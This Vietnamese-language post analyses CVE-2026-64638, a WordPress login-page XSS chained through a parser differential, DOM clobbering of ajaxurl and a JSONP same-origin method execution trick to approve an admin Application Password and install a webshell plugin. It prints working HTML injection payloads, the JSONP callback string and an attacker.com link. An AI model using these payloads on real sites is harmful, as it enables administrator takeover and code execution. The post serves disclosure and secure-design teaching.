



## Lời mở đầu

Vào tháng 8/2026, dự án WordPress đã phát hành bản vá khẩn cấp cho **CVE-2026-64638** — một lỗ hổng Reflected XSS trước đăng nhập (Pre-Auth) đạt mức độ nghiêm trọng **CVSS 8.9 High**. Xuất phát từ một điểm hở tưởng chừng nhỏ tại màn hình `wp-login.php` (thiếu mã hóa ngữ cảnh HTML cho thông báo lỗi tên đăng nhập không tồn tại), lỗ hổng này có thể bị kẻ tấn công khuếch đại thành chuỗi **Pre-Auth RCE** toàn diện dưới quyền Web Server khi có sự tương tác của Administrator.

Điều làm cho CVE-2026-64638 trở thành một case-study điển hình trong nghiên cứu bảo mật Web hiện đại không chỉ nằm ở tác động cuối cùng, mà nằm ở **nghệ thuật kết hợp các kỹ thuật Client-Side nâng cao**. Lỗ hổng là minh chứng cho thấy một điểm chèn HTML hạn chế hoàn toàn có thể "mượn" chính logic mã nguồn mặc định của ứng dụng để đạt được mục đích thực thi mã độc.

### Tóm tắt chuỗi khai thác (TL;DR Chain)

Chuỗi khai thác **XSS2Shell** kết hợp 5 mắt xích kỹ thuật độc đáo:

1. **Reflected XSS (Sink hở):** Màn hình `wp-login.php` in trực tiếp tham số tên đăng nhập sai mà không qua `esc_html()`.
2. **Parser Differential (Xung đột bộ lọc):** Chèn khoảng trắng dị dạng sau dấu `<` (`< area ...>`) khiến PHP `strip_tags()` bỏ qua, nhưng KSES và HTML5 Parser của Trình duyệt vẫn nhận diện và dựng thành phần tử DOM.
3. **DOM Clobbering (`window.ajaxurl`):** Tạo thẻ `<area id="ajaxurl" href="...">` ghi đè biến toàn cục, lừa file `user-profile.js` nạp URL REST API do kẻ tấn công định nghĩa.
4. **REST API JSONP & SOME:** Lợi dụng thuộc tính `_jsonp` và biểu thức chính quy kiểm tra callback cho phép truy cập thuộc tính liên kết (`window.opener.approve.click`), từ đó tự động bấm nút chấp thuận **Application Password** trên cửa sổ Admin.
5. **RCE via REST API:** Dùng Application Password vừa thu thập để upload và kích hoạt Plugin chứa Webshell qua WordPress REST API.

Trên WordPress **4.7–7.0.2**, kẻ tấn công có thể thực hiện pre-auth RCE dưới quyền web server khi quản trị viên tương tác (click link). WordPress xác nhận và vá lỗ hổng trong [GHSA-52p2-r8wf-jcrf](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-52p2-r8wf-jcrf); bản ghi CVE chấm điểm CVSS **8.9 High**.

| Thuộc tính | Đặc điểm kỹ thuật |
| --- | --- |
| Thành phần | WordPress Core (Màn hình đăng nhập) |
| Entry point | Tham số đăng nhập tại `wp-login.php` |
| Điều kiện full chain | Cần người dùng có quyền Administrator tương tác (click link) |
| Phiên bản bị ảnh hưởng | 4.7–7.0.2 (Đã có bản vá backport cho tất cả các nhánh cũ) |
| Bản sửa | 7.0.3 (và các phiên bản point release tương ứng của nhánh cũ) |
| Tác động cuối | Cấp Application Password admin => Upload plugin PHP => RCE |

tiếp theo cùng xem chi tiết từng bước khai thác và cách bản vá khắc phục lỗ hổng này.

## Mô hình xử lý đúng của Login Error và Script Enqueue

Màn hình đăng nhập (`wp-login.php`) có nhiệm vụ xác thực người dùng và hiển thị thông báo lỗi khi đăng nhập thất bại. Đồng thời, nó enqueue một số script cần thiết cho giao diện.

Luồng đúng phải tuân thủ trình tự sau:




Ta có thể thấy có hai điều đảm bảo tính an toàn ở đây là:

> 1. mọi dữ liệu do người dùng nhập vào khi hiển thị lại trên HTML bắt buộc phải đi qua hàm escape theo đúng ngữ cảnh (`esc_html()`);
> 2. các script client-side (`user-profile.js`) không được phép tự ý thực thi logic nhạy cảm khi các DOM element phục vụ nó không tồn tại trên trang.

CVE-2026-64638 đã phá vỡ cả hai ý trên này.

## CVE-2026-64638: Lỗi thiếu escape tại màn hình đăng nhập

### Code trước bản vá

Trong WordPress 7.0.2, khi người dùng nhập tên đăng nhập không tồn tại, hàm `wp_authenticate_username_password()` trả về đối tượng `WP_Error` bằng cách đưa trực tiếp biến `$username` vào thông báo:

```php
return new WP_Error(
    'invalid_username',
    sprintf(
        __( 'The username <strong>%s</strong> is not registered.' ),
        $username
    )
);
```
*(Kiểm tra trực tiếp tại [WordPress 7.0.2, `wp-includes/user.php` dòng 181–191](https://github.com/WordPress/wordpress-develop/blob/7.0.2/src/wp-includes/user.php#L181-L191))*

Dù `$username` đã đi qua `sanitize_user()`, hàm này chỉ loại bỏ các ký tự không hợp lệ cho username (như khoảng trắng thừa, ký tự điều khiển), hoàn toàn **không mã hóa HTML**. Khi thông báo lỗi này được in ra giao diện `wp-login.php`, trình duyệt sẽ diễn giải mọi markup có trong `$username` thành thẻ HTML thực sự.

### Bản vá

Trong WordPress 7.0.3, lập trình viên đã bao bọc `$username` trong `esc_html()`:

```diff
- $username
+ esc_html( $username )
```
*(Xem [source WordPress 7.0.3, `user.php`](https://github.com/WordPress/wordpress-develop/blob/7.0.3/src/wp-includes/user.php#L181-L191))*

---

## Parser Differential: Vượt qua các bộ lọc HTML của Core

Nếu chỉ chèn thẻ chuẩn như `<script>alert(1)</script>`, bộ lọc của WordPress hoặc WAF sẽ phát hiện và chặn ngay lập tức. Để lọt được mã HTML độc hại vào trang `wp-login.php`, kẻ tấn công lợi dụng **Parser Differential** — sự xung đột trong cách hiểu và xử lý chuỗi HTML giữa các bộ phân tích cú pháp (parser) khác nhau.

### 1. Bản chất xung đột giữa 3 lớp Parser

Trong luồng xử lý này một chuỗi dữ liệu đầu vào sẽ lần lượt đi qua **3 lớp parser** với các quy tắc đọc hoàn toàn khác nhau:

| Lớp Parser | Cơ chế  xử lý kỹ thuật | Cách nhìn nhận chuỗi HTML |
| :--- | :--- | :--- |
| **Lớp 1: `wp_strip_all_tags()`** | Sử dụng hàm `strip_tags()` mặc định của PHP. | Chỉ nhận diện là thẻ HTML khi thấy dấu `<` đi liền kề ngay sau đó là một chữ cái (`[a-zA-Z]`). |
| **Lớp 2: `wp_kses_post()`** | Sử dụng bộ lọc KSES parser của WordPress (dựa trên Whitelist). | Linh hoạt hơn: Tự động chuẩn hóa (trim) khoảng trắng thừa sau dấu `<` và kiểm tra thẻ trong danh sách an toàn. |
| **Lớp 3: Trình duyệt (Browser)** | Tuân theo chuẩn HTML5 Parser hiện đại (Chrome/Firefox/Edge). | Tự động loại bỏ khoảng trắng thừa sau `<` để dựng phần tử DOM hoàn chỉnh. |

---

### 2. Hành trình của Payload qua 3 lớp xử lý

Kẻ tấn công sử dụng **payload chứa khoảng trắng ngay sau dấu `<`** (ví dụ dùng thẻ `<area>`):

```html
< area id="ajaxurl" href="[https://attacker.com/evil.js](https://attacker.com/evil.js)">
```

Hãy nhìn cách payload này đi qua 3 lớp parser:

1. Tại Lớp 1 (`wp_strip_all_tags`): Khi hàm `strip_tags()` của PHP quét chuỗi `< area`, nó thấy sau dấu `<` là một khoảng trắng chứ không phải chữ cái [a-zA-Z]. `strip_tags()` kết luận đây chỉ là phép so sánh toán học hoặc văn bản thông thường (như `5 < 10`) nên cho qua toàn bộ chuỗi mà không xóa.

2. Tại Lớp 2 (wp_kses_post): Bộ lọc KSES của WordPress lại xử lý khoảng trắng linh hoạt hơn. Khi nhận chuỗi `< area`, KSES chuẩn hóa bỏ khoảng trắng đầu và nhận diện đây là thẻ `<area>`. Do thẻ `<area>` cùng 2 thuộc tính id và href đều nằm trong danh sách được phép (allowlist) của KSES, nó đánh giá chuỗi này an toàn và tiếp tục cho qua.

3. Tại Lớp 3 (Trình duyệt của nạn nhân): Trình duyệt nhận chuỗi `< area ...>`. Theo chuẩn HTML5 Parser, trình duyệt tự động bỏ qua khoảng trắng thừa sau dấu `<` và dựng nên một phần tử DOM hoàn chỉnh trên trang login:

```html
<area id="ajaxurl" href="[https://attacker.com/evil.js](https://attacker.com/evil.js)">
```
Đến đây ta đã có cái nhìn khá rõ ràng về cách một payload HTML được lọt qua các bộ lọc của WordPress và xuất hiện trong DOM của trang login mà không bị chặn.

Nhưng sẽ nhiều người sẽ thấy lạ khi lại cố  chèn thẻ có thuộc tính `id="ajaxurl"`? thì ta sẽ đi phân tích 1 chút về lý do cho điều này ở góc nhìn của kẻ tấn công

### 3. Tại sao lại cố chèn thẻ có id="ajaxurl"?
Sau khi dùng Parser Differential chèn được các thẻ HTML vào trang `wp-login.php`, ta cần tìm cách biến các thẻ này thành mã chạy (JS execution).Ta lợi dụng việc WordPress enqueue file `user-profile.js` vào trang login, trong file này có đoạn code tự động gửi request AJAX:
```javascript
$.post( ajaxurl, { action: 'save-user-color-scheme', ... });
```
- Ở các trang quản trị (`wp-admin`), WordPress sẽ dùng hàm `wp_localize_script()` để định nghĩa biến toàn cục `ajaxurl = '/wp-admin/admin-ajax.php'`.
- Tuy nhiên, trên trang `wp-login.php`, WordPress chưa bao giờ định nghĩa biến `ajaxurl`. Biến này hoàn toàn là `undefined`.
Trong JavaScript, khi truy cập một biến toàn cục chưa được khai báo (`ajaxurl`), engine sẽ tìm thuộc tính tương ứng trên đối tượng window (`window.ajaxurl`). Đây chính là điểm yếu ngữ cảnh mở đường cho kỹ thuật DOM Clobbering tiếp theo mà mình sẽ nhắc đến.

---

## DOM Clobbering: Biến DOM tĩnh thành luồng thực thi tự động

Sau khi đưa được các thẻ HTML (payload) qua bộ lọc nhờ Parser Differential, mục tiêu tiếp theo của kẻ tấn công là biến các thẻ HTML tĩnh này thành lệnh gửi request thực sự mà không cần người dùng tương tác.

Để làm được điều này, chuỗi exploit lạm dụng script `wp-admin/js/user-profile.js` — một file JS mặc định được WordPress nạp trên toàn bộ trang `wp-login.php` như ta đã nói ở trên.

### 1. Phân tích Gadget trong user-profile.js
Trong file `user-profile.js`, có hai đoạn mã xử lý sự kiện (event handler) nguy hiểm khi chạy trên ngữ cảnh trang Login:

#### Gadget 1: Tự động phát sự kiện Click (Auto-trigger)
script có đoạn mã tìm nút bấm tạo mật khẩu và tự động kích hoạt sự kiện click ngay khi DOM sẵn sàng (`document.ready`):

```javascript
$('.reset-pass-submit').find('.wp-generate-pw').trigger('click');
```
Đoạn code này vốn dành cho màn hình Đổi mật khẩu (`action=resetpass`). Tuy nhiên trên trang Đăng nhập thông thường, hai class `.reset-pass-submit` và `.wp-generate-pw` không tồn tại.

Source gốc nằm tại [`user-profile.js` của WordPress 7.0.2](https://github.com/WordPress/wordpress-develop/blob/7.0.2/src/js/_enqueues/admin/user-profile.js#L619-L623).

#### Gadget 2: Xử lý sự kiện Click chọn màu (Delegated Event Handler)
Script lắng nghe sự kiện click trên #color-picker cho các phần tử con mang class .color-option:

```javascript
$('#color-picker').on('click', '.color-option', function() {
    var user_id = $('input#user_id').val();
    var new_user_id = $('input[name="checkuser_id"]').val();

    if ( user_id === new_user_id ) {
        $.post( ajaxurl, {
            action: 'save-user-color-scheme',
            color_scheme: $(this).children('.color-palette').data('color-scheme'),
            nonce: $('#color-nonce').val()
        });
    }
});
```
Lỗi logic trong câu lệnh `if`:
Trên trang profile thực sự, hai ô input `#user_id` và `checkuser_id` sẽ chứa ID người dùng. Nhưng trên trang `wp-login.php`, cả hai ô input này đều không tồn tại.
jQuery gọi `.val()` trên phần tử không tồn tại sẽ trả về  `undefined`.
Phép so sánh: `undefined === undefined` trả về  `true`!
 
Mục đích bảo mật của câu lệnh `if` bị vô hiệu hóa hoàn toàn.

### 2. Bản chất kỹ thuật DOM Clobbering với `ajaxurl`

Sau khi vượt qua câu lệnh `if` kiểm tra ID, script tiếp tục gọi: `$.post( ajaxurl, ... )`. 

Quá trình **DOM Clobbering** diễn ra qua 3 mắt xích kỹ thuật:

1. **Context Gap (Thiếu hụt biến toàn cục):** 
   Trên trang `wp-login.php`, biến `ajaxurl` không được khởi tạo (vốn thường được bơm qua `wp_localize_script()` ở trang quản trị).

2. **HTML Named Properties Access:** 
   Theo quy chuẩn HTML Specification, các phần tử DOM có thuộc tính `id` sẽ tự động được gán làm thuộc tính đại diện trên đối tượng toàn cục `window`. Khi JavaScript truy cập biến `ajaxurl` nhưng không tìm thấy khai báo ở local/global scope, runtime sẽ fallback về tìm kiếm `window.ajaxurl`.

3. **String Conversion của `HTMLAreaElement`:**
   * Khi kẻ tấn công chèn thẻ `<area id="ajaxurl" href="...">`, `window.ajaxurl` sẽ trỏ tới đối tượng `HTMLAreaElement`.
   * Hàm `$.post()` của jQuery kỳ vọng tham số đường dẫn đầu tiên là một chuỗi (String). Khi truyền một Object vào, jQuery sẽ kích hoạt phép ép kiểu ngầm định (type coercion) bằng cách gọi phương thức `.toString()`.
   * Vì `HTMLAreaElement` kế thừa interface `HTMLHyperlinkElementUtils`, phương thức `.toString()` của nó được định nghĩa để trả về **chính xác giá trị chứa trong thuộc tính `href`**.

### 3. Payload HTML hoàn chỉnh & Luồng tự động kích hoạt
Kẻ tấn công đưa vào tham số username 3 phần tử DOM:
```html
< area id=ajaxurl href="/?rest_route=/&_method=GET&_jsonp=alert&_envelope=1">
< div id=color-picker class=reset-pass-submit>
< button class="wp-generate-pw color-option">X
```

Luồng thực thi diễn ra hoàn toàn tự động (Zero-Click):

Kẻ tấn công không hề chạy một dòng JavaScript nào của riêng mình ở bước này. Họ chỉ dùng Parser Differential để dựng sẵn khung DOM, sau đó mượn chính mã JavaScript mặc định của WordPress (`user-profile.js`) để kích hoạt request HTTP theo ý muốn.

## REST JSONP & SOME: Từ Callback Nguồn gốc đến Kích hoạt Thao tác Quản trị

Sau khi ghi đè thành công `window.ajaxurl` bằng thuộc tính `href` của thẻ `<area>`, lệnh `$.post(ajaxurl)` từ `user-profile.js` sẽ gửi một HTTP request đến URL do kẻ tấn công định nghĩa.

Mục tiêu tiếp theo là biến phản hồi của request này thành mã JavaScript thực thi trong ngữ cảnh gốc (Origin) của trang web, từ đó điều khiển hành vi trên phiên làm việc của Quản trị viên (Admin).

### 1. Khai thác REST API Global Parameters & `jQuery.globalEval()`

Thẻ `<area>` được cài đặt thuộc tính `href` trỏ về REST API của WordPress với danh sách tham số toàn cục (Global Parameters) đặc biệt:

```html
<area id="ajaxurl" href="/?rest_route=/&_method=GET&_envelope=1&_jsonp=execPayload">
```
Sự phối hợp của 4 tham số giúp điều khiển cách REST API trả về dữ liệu:

| Tham số REST API | Vai trò trong chuỗi Exploit |
|---|---|
| `rest_route=/` | Trỏ tới Endpoint chỉ mục (index) của REST API. Endpoint này mở công khai, không yêu cầu xác thực (unauthenticated). |
| `_method=GET` | Do `$.post()` gửi HTTP POST, tham số này ép REST Server xử lý yêu cầu dưới dạng GET để tương thích với cơ chế JSONP. |
| `_envelope=1` | Bọc phản hồi HTTP trong cấu trúc Envelope chuẩn (trả về mã trạng thái 200 OK). Nhờ đó, ngay cả khi API gặp lỗi phân quyền (401/403), jQuery ở client vẫn nhận được HTTP 200 và tiếp tục xử lý body. |
| `_jsonp=...` | Yêu cầu REST API trả về dữ liệu dưới dạng JSONP (được bọc trong một hàm callback), đồng thời thiết lập Header `Content-Type: application/javascript; charset=UTF-8`. |

#### Cơ chế tự động thực thi của jQuery
Khi `$.post()` nhận được response có `Content-Type: application/javascript` mà không khai báo cố định định dạng dữ liệu trả về (`dataType`), jQuery tự động coi đây là một Script động và tự động thực thi bằng `jQuery.globalEval()`.

Phản hồi từ REST API trả về có dạng:

```javascript
/**/execPayload({"name":"My Site","description":"Just another WordPress site", ...});
```
Đến đây, kẻ tấn công đạt được mục tiêu Thực thi Hàm Tùy ý (Arbitrary Function Invocation) hoàn toàn tự động.

### 2. Kỹ thuật Same-Origin Method Execution (SOME)
Thay vì phải chèn các đoạn script phức tạp (vốn dễ bị chặn bởi WAF hoặc Content Security Policy), chuỗi tấn công lạm dụng kỹ thuật Same-Origin Method Execution (SOME) để tác động trực tiếp lên DOM của cửa sổ Admin.
#### Lỗi Regex trong kiểm tra JSONP Callback
WordPress kiểm tra tính hợp lệ của tên hàm callback trong tham số `_jsonp` tại `wp-includes/rest-api/class-wp-rest-server.php`:
```php
// Dấu chấm '.' trong Regex cho phép thực hiện Property Traversal
if ( ! preg_match( '/^[a-zA-Z0-9_.]+$/', $jsonp ) ) {
    return new WP_Error( 'rest_invalid_jsonp', ... );
}
```
Dấu chấm . trong RegEx cho phép thực hiện Property Traversal (truy cập chuỗi thuộc tính liên kết giữa các đối tượng). Tên callback không bị giới hạn ở một hàm toàn cục (như alert), mà có thể truy xuất xuyên qua các cửa sổ trình duyệt (Cross-Window Boundaries).

#### Payload Callback chuỗi thuộc tính:
Kẻ tấn công thay đổi tham số _jsonp thành:

```text
_jsonp=window.opener.approve.click
```

Tên callback này hoàn toàn hợp lệ với RegEx ^[a-zA-Z0-9_.]+$.

#### Luồng giải mã và thực thi trên Trình duyệt:

```text
Cửa sổ XSS (Child Window)                          Cửa sổ Admin (Opener Window)
             (Đang chạy trên origin target)                      (/wp-admin/authorize-application.php)
                           │                                                       │
                           │                                                       │
1. jQuery.globalEval()     │                                                       │
   nhận được phản hồi JSONP│                                                       │
                           │                                                       │
2. Bắt đầu phân giải:      │                                                       │
   window                  │                                                       │
     └── .opener ──────────┼───────────────────────────────────────────────────────> Context cửa sổ Admin
           └── .approve    │                                                       │     └── Tìm phần tử DOM
                 └── .click│                                                       │         id="approve"
                           │                                                       │
3. Kích hoạt hàm:          │                                                       │
   .click(JSON_DATA) ──────┼───────────────────────────────────────────────────────> Thực thi phương thức
                           │                                                       │ HTMLElement.prototype.click()
                           │                                                       │ (Bấm nút "Approve")
```

1. Phân giải window.opener: Truy cập vào đối tượng cửa sổ cha (Opener Window) — nơi Quản trị viên đang mở trang cấp quyền ứng dụng /wp-admin/authorize-application.php.

2. Truy cập window.opener.approve: Lấy phần tử DOM đại diện cho nút Approve có id="approve".

3. Kích hoạt .click(): Lấy phương thức .click() của HTMLElement.prototype.

4. Môi trường thực thi gọi hàm: window.opener.approve.click(JSON_RESPONSE_DATA).

> Lưu ý kỹ thuật cốt lõi: Phương thức HTMLElement.prototype.click() trong JavaScript hoàn toàn bỏ qua mọi tham số truyền vào nó. Mặc dù REST API truyền toàn bộ dữ liệu JSON vào làm tham số cho callback, hàm .click() vẫn hoạt động bình thường và phát sự kiện Click lên phần tử #approve.

## Từ Application Password đến Remote Code Execution (RCE)
Sau khi nút Approve được bấm tự động, WordPress tạo một Application Password mới có quyền Administrator và gửi về cho kẻ tấn công. Với thông tin xác thực này, kẻ tấn công tương tác trực tiếp qua WordPress REST API để leo thang lên RCE:

Xác thực API: Sử dụng Username Admin và Application Password vừa thu thập được qua `Header Authorization: Basic ....`

Upload Plugin chứa Webshell: Gửi request `POST /wp-json/wp/v2/plugins` chứa file mã độc dạng `.zip`.

Kích hoạt & Thực thi: Kích hoạt plugin vừa tải lên để thực thi lệnh hệ thống (RCE) dưới quyền của Web Server.

---


## Bài học thiết kế hệ thống

`XSS2Shell` là minh chứng điển hình cho thấy một lỗ hổng nhỏ ở UI có thể gây sụp đổ toàn bộ hệ thống khi các giả định bảo mật (Trust Boundaries) bị phá vỡ:

- **Sanitization vs. Contextual Escaping:** `sanitize_user()` làm sạch dữ liệu đầu vào nhưng không thể thay thế cho `esc_html()` ở đầu ra. Dữ liệu hiển thị ở đâu bắt buộc phải escape theo đúng ngữ cảnh ở đó.
- **Biến toàn cục ngầm định (Implicit Globals):** Việc JS tin tưởng vào các biến toàn cục chưa được khởi tạo (`ajaxurl`) mở đường cho DOM Clobbering thông qua HTML Named Properties.
- **Tải Script sai ngữ cảnh (Enqueue Over-scoping):** Không bao giờ load các file JS phức tạp (`user-profile.js`) ở những trang công cộng không cần đến chúng.
- **Thiếu Re-authentication cho hành vi nhạy cảm:** Các thao tác cấp quyền sinh tử như tạo Application Password hay cài Plugin không nên phụ thuộc hoàn toàn vào phiên làm việc trình duyệt hiện tại mà phải yêu cầu Admin nhập lại mật khẩu (Re-auth).


## Tài liệu tham khảo

- [WordPress 7.0.3 Security Release](https://wordpress.org/news/2026/08/wordpress-7-0-3-release/)
- [GHSA-52p2-r8wf-jcrf / CVE-2026-64638](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-52p2-r8wf-jcrf)
- [Pwn.ai: XSS2Shell Technical Analysis](https://pwn.ai/blog/xss2shell)

